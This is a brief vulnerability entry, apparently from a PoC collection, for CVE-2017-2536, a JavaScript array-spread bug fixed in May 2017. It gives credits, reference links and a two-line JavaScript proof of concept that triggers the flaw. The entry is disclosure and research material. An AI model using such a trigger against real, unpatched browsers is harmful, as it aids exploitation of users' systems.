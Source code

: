 # CVE-2017-2536

- Fix: May 2017
- Credit: Samuel Groß, and Niklas Baumstark

## PoC

```javascript
var a = new Array(0x7fffffff);
var x = [13, 37, ...a, ...a];
```

## Reference

- [Apple](https://support.apple.com/en-us/HT207804)
- [ZDI](http://www.zerodayinitiative.com/advisories/ZDI-17-358/)
- [Write up](https://phoenhex.re/2017-06-02/arrayspread)
